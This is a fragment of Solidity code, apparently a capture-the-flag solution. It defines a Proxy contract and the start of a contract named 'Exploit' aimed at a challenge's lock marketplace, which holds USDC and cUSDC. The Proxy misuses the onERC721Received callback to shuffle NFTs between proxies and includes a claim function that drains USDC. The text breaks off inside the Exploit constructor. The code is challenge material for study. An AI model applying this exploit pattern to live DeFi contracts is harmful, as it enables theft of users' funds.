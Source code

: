 ```solidity

    function set_mode(uint256 _mode) external {
        mode = _mode;
    }

    function set_addr_a(address addr) external {
        a = addr;
    }

    function set_addr_b(address addr) external {
        b = addr;
    }

    function set_addr_c(address addr) external {
        c = addr;
    }

    function onERC721Received(address, address, uint256 tokenId, bytes calldata) external returns (bytes4) {
        if (mode == 1) {
            t.transferFrom(address(this), c, tokenId);
            Proxy(c).transferFrom(address(c), a, tokenId);
        }
        lastTokenId = tokenId;
        return this.onERC721Received.selector;
    }

    function claim() external {
        usdc.transfer(msg.sender, usdc.balanceOf(address(this)));

        i += 1;
        t.transferFrom(address(this), address(uint160(address(this)) + i), lastTokenId);
    }

    function withdrawUSDC(uint256 tokenId, uint256 amount) external {
        m.withdrawUSDC(tokenId, amount);
    }

    function redeemCompoundRewards(uint256 tokenId, uint256 rewardAmount) external {
        m.redeemCompoundRewards(tokenId, rewardAmount);
    }
}

contract Exploit {
    IChallenge public chal;
    ILockMarketplace public m;
    IERC20 public usdc;
    IERC20 public cusdc;
    Proxy public a;
    Proxy public b;
    Proxy public c;

    constructor(IChallenge _chal) {
        chal = _chal;
        m = chal.LOCK_MARKETPLACE();
        usdc = chal.USDC();
        cusdc = chal.CUSDC();

        a = new Proxy(_chal);
        b = new Proxy(_chal);
        c = new Proxy(_chal);

        b.set_addr_a(address(a));
```